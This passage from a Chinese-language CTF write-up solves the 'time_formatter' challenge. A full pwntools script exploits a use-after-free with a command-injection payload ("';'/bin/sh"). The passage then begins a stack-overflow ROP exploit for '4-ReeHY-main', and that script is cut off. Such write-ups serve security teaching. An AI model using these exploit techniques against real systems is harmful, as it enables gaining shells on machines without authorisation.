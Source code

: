 若这个时候再次malloc一个等同的chunk，就可以拿到原来存format的chunk，在 Set a time zone. 中可以申请chunk，且对输入没有check，可以修改，此时ptr还是指向这个chunk，从而在 Print your time. 中的内容，就是可控的，也就是在 Set a time zone. 中输入 ';'/bin/sh ，即可

![t4.png](https://i.loli.net/2019/08/06/O7AFWgIrPJv9jX1.png)

完整EXP：

```python
from pwn import *
p = process("./time_formatter")
p.recv()
p.sendline("1")
p.recv()
p.sendline("%aAbBcCdDe")
p.recv()
p.sendline("5")
p.recv()
p.sendline("N")
p.recv()
payload = "';'/bin/sh"
p.sendline("3")
p.recv()
p.sendline(payload)
p.recv()
p.sendline('4')
p.recv()
p.interactive()
```

## 4-ReeHY-main-1

保护机制

![41.png](https://i.loli.net/2019/08/06/x4MI8bnPyA6wX7c.png)

这道题有两种解法，利用heap和stack都可实现

### stack实现

![42.png](https://i.loli.net/2019/08/06/JYnLQmDjrOgyuEG.png)

creat时候存在整数溢出，导致可以直接往栈上写大量数据，同时这里的nbytes在malloc时候太大，所以返回一个NULL指针，没影响，直接栈上进行ROP泄漏GOT，再跳回到开头再次溢出到one_gadget getshell

![43.png](https://i.loli.net/2019/08/06/CvLiEZW8oybsfx7.png)

完整EXP：

```python
from pwn import *

libc_one_gadget_addr = 0x45216
p = process('./4-ReeHY-main')
elf = ELF('./4-ReeHY-main')
libc = ELF("/libc64.so.6")
p.sendlineafter('$ ', '1234')


def add(a, b, c):
    p.sendlineafter('$ ', '1')
    p.sendlineafter('Input size\n', str(a))
    p.sendlineafter('Input cun\n', str(b))
    p.sendlineafter('Input content', c)


pop_rdi = 0x400da3
```